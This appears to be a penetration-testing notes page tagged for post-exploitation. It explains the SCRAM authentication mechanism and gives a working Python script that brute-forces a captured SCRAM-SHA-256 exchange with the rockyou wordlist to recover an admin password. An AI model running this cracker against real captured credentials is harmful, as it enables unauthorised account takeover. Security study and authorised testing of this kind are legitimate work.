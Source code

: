 ```yaml
---
tags:
  - PostExploitation
  - Cryptography
  - HashesAndEncryption
  - Hashes
---
```

SCRAM, which stands for Salted Challenge Response Authentication Mechanism, is a cryptographic hashing algorithm used for secure password storage and authentication. It is commonly used in protocols like SASL (Simple Authentication and Security Layer) to securely authenticate users without sending their passwords over the network in plain text. SCRAM hashing involves salting the password before hashing it, adding an extra layer of security to prevent brute force attacks and rainbow table attacks.

# Custom Tooling

```
#!/usr/bin/python3

import base64
import hashlib
import hmac
import sys

USERNAME = 'admin'
SALT = 'zOa0kWA/OTak0a0vNaN0Zh2drO1uekoDUh4sdg=='
CLIENT_NONCE = '+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeK'
SERVER_NONCE = '+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeKoGtDP4x0LH5WZgQ9xFMJEJknBHTp6N1D'
ITERATIONS = 15000
TARGET = '/nW1YVs0JcvxU48jLHanbkQbZ4GFJ8+Na8fj7xM1s98='
WORDLIST = '/usr/share/wordlists/rockyou.txt'

def byte_xor(ba1, ba2):
    return bytes([_a ^ _b for _a, _b in zip(ba1, ba2)])

def proof(username, password, salt, client_nonce, server_nonce, iterations):
    raw_salt = base64.b64decode(salt)
    client_first_bare = 'n={},r={}'.format(username, client_nonce)
    server_first = 'r={},s={},i={}'.format(server_nonce, salt, iterations)
    client_final_without_proof = 'c=biws,r={}'.format(server_nonce)
    auth_msg = '{},{},{}'.format(client_first_bare, server_first, client_final_without_proof)

    salted_password = hashlib.pbkdf2_hmac('sha256', password.encode('utf-8'), raw_salt, iterations)
    client_key = hmac.digest(salted_password, b'Client Key', 'sha256')
    stored_key = hashlib.sha256(client_key).digest()
    client_signature = hmac.new(stored_key, auth_msg.encode('utf-8'), 'sha256').digest()
    client_proof = byte_xor(client_key, client_signature)

    return base64.b64encode(client_proof).decode('utf-8')

counter = 0
with open(WORDLIST) as f:
    for candidate in f:
        counter = counter + 1
        if counter % 1000 == 0:
            print('Tried {} passwords'.format(counter))

        p = proof(USERNAME, candidate.rstrip('\n'), SALT, CLIENT_NONCE, SERVER_NONCE, ITERATIONS)
        if p == TARGET:
            print('Password found: {}'.format(candidate.rstrip('\n')))
            sys.exit(0)

print('Wordlist exhausted with no password found.')

```